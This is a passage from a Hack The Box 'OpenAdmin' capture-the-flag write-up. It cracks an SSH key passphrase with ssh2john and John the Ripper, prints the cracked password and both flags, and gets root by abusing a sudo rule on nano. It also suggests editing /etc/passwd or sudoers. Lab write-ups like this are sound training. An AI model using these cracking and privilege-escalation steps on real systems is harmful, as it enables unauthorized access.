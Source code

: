 Now before we can use this to connect as joanna we have to find the password the Key, lets ask our friend John.
First convert the file into john-readable format:

```
/usr/share/john/ssh2john.py id_rsa > johnfile.txt
```

Now we can use this john to recover the password from the johnfile.

```
mindslave@kalibox:~/hackthebox/OpenAdmin/ssh$ john --wordlist=/usr/share/wordlists/rockyou.txt johnfile.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:02 DONE (2020-02-07 08:27) 0.3745g/s 5371Kp/s 5371Kc/s 5371KC/sa6_123..*7¡Vamos!
Session completed
```

and we found the password: "bloodninjas". This enabled us log in as Joanna and gave us the user flag for this box

```
joanna@openadmin:~$ ls
user.txt
joanna@openadmin:~$ cat user.txt
c9b2cf07d40807e62af62660f0c81b5f
```

# 0x3 getting the root.txt

This was acctually easier than getting the user, once you are logged in with joanna do:
```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

you can open the /opt/priv with nano as root without getting prompted for a password, once you open nano on that file
you can instruct nano to read the /root/root.txt, which since it runs as root it will do without complains.

```
2f907ed450b361b2c2bf4e8795d5b561
```

And that is it, instead of opening the root.txt you could also edit the /etc/passwd or the sudoers file to actually become a root user.
At this point we have owned the box.
This was my first Box on HTB and it won't be the last!



